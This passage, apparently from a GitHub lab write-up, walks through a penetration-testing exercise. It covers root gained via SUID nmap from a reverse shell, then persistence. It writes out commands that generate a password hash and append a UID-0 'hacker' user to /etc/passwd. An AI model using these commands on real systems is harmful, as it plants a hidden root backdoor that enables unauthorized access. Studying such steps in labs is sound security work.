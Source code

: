    ![Reverse Shell Become Root](./screenshots/file-upload-attack/reverse-shell-nmap-root.jpg)

**Summary:**

- The vulnerable binary used: `/usr/bin/nmap`
- SUID bit allowed privilege escalation
- Version allowed interactive shell


**Step 6**: Further Actions

Having managed to gain root access, I studied other privilege escalation methods, as well as considered what could be done with the root privileges. 

- One of the most famous privilege escalation paths: Check for writable `passwd` file (Classic misconfiguration)
- If an attacker gains root-level access, they could theoretically e.g. modify `/etc/passwd` to insert a new user with UID 0 (root privileges). This could allow persistent root access even if the original vulnerability is patched later.

- Checked file permissions
    - Ran this in the reverse shell:
        ```bash
        ls -l /etc/passwd
        ```
    - It showed: 
        ```
        -rw-r--r-- 1 root root 1581 May 13 2012 /etc/passwd
        ```
    - The output in permissions terms:
        - `rw-` = read/write for owner (root)
        - `r--` = read-only for group
        - `r--` = read-only for others (me)
    - So I cannot write to `/etc/passwd` as `www-data`, but since I already have root access via the `nmap` trick, I could still edit `/etc/passwd` now, because I am effectively root

    - I could: 
        1. Create a password hash (in Kali)
            ```bash
            openssl passwd -1 hackerpass
            ```
            - Example output:
                ```
                $1$Hd9N8zFJ$h4E6vHCE6RKM8IbF3CKDJ/
                ```
        2. Add fake root user from root shell
            - In the **nmap→!sh** reverse shell (which is root), append a line to `/etc/passwd`:
                ```bash
                echo 'hacker:$1$Hd9N8zFJ$h4E6vHCE6RKM8IbF3CKDJ/:0:0:root:/root:/bin/bash' >> /etc/passwd
                ```
            - This creates a user `hacker` with root privileges.